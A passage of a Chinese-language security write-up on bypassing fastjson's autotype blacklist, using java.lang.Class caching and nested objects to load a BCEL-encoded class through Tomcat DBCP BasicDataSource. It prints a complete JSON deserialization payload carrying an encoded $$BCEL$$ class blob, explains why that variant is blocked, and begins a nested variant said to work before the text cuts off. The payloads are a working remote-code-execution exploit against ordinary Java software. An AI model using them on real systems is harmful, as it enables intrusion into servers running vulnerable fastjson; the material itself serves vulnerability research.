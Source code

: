 

同理，如下改造的BCEL能用吗：

```json
{
    {"@type":"java.lang.Class","val":"org.apache.tomcat.dbcp.dbcp.BasicDataSource"},
	{"@type":"java.lang.Class","val":"com.sun.org.apache.bcel.internal.util.ClassLoader"},
    {
        {
            "aaa": {
                    "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                    "driverClassLoader": {
                        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                    },
                    "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$c9N$c30$Q$7dn$d3$s$84$94$$P$f6$7d$z$i$e8$85$h$88$L$82$La$R$ad$e0$88$5cc$V$976$a9R$X$f1G$9c$b9$A$e2$c0$H$f0Q$88$89$vP$E$91$e2$c9$bcy$f3$e6M$fc$f6$fe$f2$K$60$L$ab$$$i$8c$b9$Y$c7$84$83$c98N$d9$98v$91$c2$8c$8dY$hs$M$e9$j$V$u$bd$cb$90$y$ad$9f3X$7b$e1$95d$c8$fa$w$90$c7$ddVMFU$5ek$SR$f0C$c1$9b$e7$3cRq$de$D$z$7d$ad$3a$M9$ff$ac$hh$d5$92$97$j$cd$b5$S$db$M$ce$8eh$f6$84$Z$R$8b$7e$83$df$f2r$93$H$f5$f2$fe$9d$90m$ad$c2$80h$99$8a$e6$e2$e6$88$b7$8d$mycp$xa7$S$f2$40$c5$D$86$7f$Lo$c6$w$k$G$e0$da$98$f7$b0$80E$f2$40$b6$84$87$r$y$T$fd$9f$v$kV$e02$M$fdV$o$d3$3f$dc$93ZC$K$cd$90$ff$81zl$b2S$97$fa$3b$v$96$d6$fd$3f$iZ$c3$92w$92$q$d7J$7d$d5$8a$8eTP$df$eeo8$8dB$n$3b$jj$c8$b6$a9$a8$cd$f2$d5$88$LI$ab$d8tU$f1$93$A$8b$X$a4s$90$b22EF1$b5$f1$E$f6$60$ca$k$9di$D$d2$ff$a3$d3$fb$q$60$IY$8a$Or$df$cd$dc$88$B$85g$q$K$c9GX$X$f7p$O7$k$91$7e0$f8$A$f5$a6$904$8a$a3$f4$FX$84$d9$G$cd$d0$8c$3c$a9$7dM$c8P$z$8f$Ce$c3$f4$daH$f86F$y$w$U$8d$a9$d1$Pg4$40Dt$C$A$A"
            }
    	}: "bbb"
	}
}
```

快进到看mappings，可以看到两个都put进Mappings了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008193606175.png)

在加载ClassLoader类时，由于expectClass经过了第一次被置为Class类，第二次就取到了exceptClass

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008194307899.png)

于是checTypeSupport里，走进了第一个if，ClassLoader在黑名单，于是直接G

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008194203623.png)

为什么ClassLoader会在黑名单

实际上fastjson解析，json的嵌套处理可以视为一个栈，栈底层的map缓存了BasicDataSource和ClassLoader，对于栈的倒数第二层并没有什么用（这里很容易理解是个栈吧）

同一层的BasicDataSource和ClassLoader不能绕过，那套娃呢？先入栈BassicDataSource，再入栈ClassLoader，在取出的时候先初始化最里面的ClassLoader，退栈ClassLoader，再初始化BasicDataSource

如下，能够进行利用：

```json
{
    "name":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "y": {
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
```